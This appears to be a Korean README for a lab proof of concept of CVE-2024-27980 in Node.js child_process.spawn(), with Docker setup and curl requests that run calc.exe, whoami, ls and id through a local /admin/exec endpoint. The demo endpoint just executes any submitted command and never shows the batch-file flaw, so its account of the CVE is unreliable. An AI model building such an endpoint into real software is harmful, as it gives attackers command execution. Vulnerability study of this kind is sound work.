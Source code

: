 # CVE-2024-27980 - Improper handling of batch file extensions in Node.js child_process.spawn()

## 요약
- **CVE 번호**: CVE-2024-27980
- **취약점 설명**: Node.js의 `child_process.spawn()` 및 `spawnSync()` 함수가 Windows 환경에서 배치 파일(.bat) 확장자 처리를 부적절하게 하여, `shell: false` 옵션을 사용했음에도 명령어 주입이 발생할 수 있다.
- **영향 받는 버전**: Node.js 18.x, 20.x, 22.x 릴리스 라인 (Windows 환경)
- **취약점 유형**: Command Injection
- **PoC 방식**: `shell: false` 설정 상태에서도 명령어 실행이 가능함을 확인


## 환경 구성 및 실행
- 테스트 서버는 Node.js 20 버전을 사용하여 Docker를 구성한다.
- `http://localhost:3000/admin/exec` 에 POST 요청을 보내면서 명령어를 실행한다.

### 환경 요구사항
- Windows OS (Docker Desktop 설치)
- Node.js 설치 (20.x 버전)
- Git Bash, PowerShell 사용

아래는 docker 환경 구축을 하는 방법이며, 사진은 해당 결과물이다.
```
docker-compose build --no-cache
```
![image](https://github.com/user-attachments/assets/b1266083-393e-4671-af16-788d5efdf557)
<br>
```
docker-compose up -d
```
![image](https://github.com/user-attachments/assets/587fdcf7-c68c-48d6-90f1-1e01fe0c7cb8)

## 결과
### [윈도우 환경] 
- Docker 컨테이너는 리눅스 기반으로 동작하기 때문에, Windows 전용 프로그램(calc.exe 등)은 실행되지 않는다.
- 하지만, 실제 windows 환경에서는 관련 명령어 시도가 가능한 것을 확인할 수 있다. (node 설치 필요) 아래 과정을 통해 프로그램 실행이 가능한 것을 확인할 수 있다. (calc.exe 출력)

1. ../src 경로에서 `node app.js` 실행
2. 아래 명령어 입력
```
curl -X POST http://localhost:3001/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd": "calc.exe", "args": []}'
```
실제 계산기 프로그램이 자동으로 실행되는 것을 확인할 수 있다.

### [Docker 환경]
- 리눅스 기본 명령어인 `ls`, `id`, `whoami` 등을 curl 명령어로 요청을 보내며 PoC를 진행한다.
1. whoami 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd":"whoami","args":[]}'
```
결과 화면 : 
![image](https://github.com/user-attachments/assets/f2fc8d40-396c-4648-bcec-312ee34fa681)

2. ls 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d "{\"cmd\":\"ls\",\"args\":[\"-l\"]}"
```
결과 화면 : ![image](https://github.com/user-attachments/assets/b4b75a31-ea85-4173-b0e4-8db37d9ba988)

3. id 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd":"id","args":[]}'
```
결과 화면 : 
![image](https://github.com/user-attachments/assets/61b84ab2-60e3-40c1-81c1-e5ceec0f2820)

위 curl 명령어를 통해 실행한 결과는, 터미널에서 직접 해당 명령어들을 입력했을 때 출력되는 결과와 동일함을 확인할 수 있다.

## 정리
- CVE-2024-27980은 Windows 환경에서 child_process.spawn() 및 spawnSync()가 확장자 자동 처리 과정에서 명령어 주입을 방지하지 못해 발생하는 취약점이다.
- `shell: false` 설정만으로는 Windows 환경에서 완벽한 명령어 검증이 되지 않으며, 사용자가 입력한 명령어를 통해 프로그램 실행이 가능해질 수 있다.
- PoC 결과, Docker 리눅스 컨테이너에서는 리눅스 기본 명령어 실행이 가능했으며, Windows 로컬 환경에서는 calc.exe 실행을 통해 프로그램 실행이 가능함을 확인하였다.
- 해당 취약점을 방지하기 위해 Node.js를 최신 버전(v20.15.1 이상)으로 업데이트하고, 사용자 입력값에 대한 엄격한 검증이 필요하다

---
## 참고
https://nodejs.org/en/blog/vulnerability/july-2024-security-releases
https://nvd.nist.gov/vuln/detail/CVE-2024-27980
https://knvd.krcert.or.kr/detailSecNo.do?IDX=6235

